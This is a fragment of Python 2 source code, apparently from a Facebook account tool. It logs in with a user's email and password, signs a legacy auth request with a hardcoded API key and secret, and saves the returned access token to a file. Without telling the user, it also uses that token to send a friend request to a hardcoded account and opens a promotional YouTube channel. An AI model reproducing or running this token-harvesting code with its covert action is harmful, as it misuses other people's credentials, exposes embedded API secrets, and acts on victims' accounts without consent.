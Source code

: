 		br._factory.is_html = True

		br.select_form(nr=0)

		br.form['email'] = id

		br.form['pass'] = pwd

		br.submit()

		url = br.geturl()

		if 'save-device' in url:

			try:

				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'

				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}

				x=hashlib.new("md5")

				x.update(sig)

				a=x.hexdigest()

				data.update({'sig':a})

				url = "https://api.facebook.com/restserver.php"

				r=requests.get(url,params=data)

				z=json.loads(r.text)

				unikers = open("login.txt", 'w')

				unikers.write(z['access_token'])

				unikers.close()

				print '\n\x1b[1;96mLogin Successful.•◈•..'

				os.system('xdg-open https://m.youtube.com/channel/UCRrRgcJjsnNm5Bi5ZenRGnw')

				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])

				menu()

			except requests.exceptions.ConnectionError:

				print"\n\x1b[1;97mThere is no internet connection"

				keluar()

		if 'checkpoint' in url:

			print("\n\x1b[1;97mYour Account is on Checkpoint")

			os.system('rm -rf login.txt')
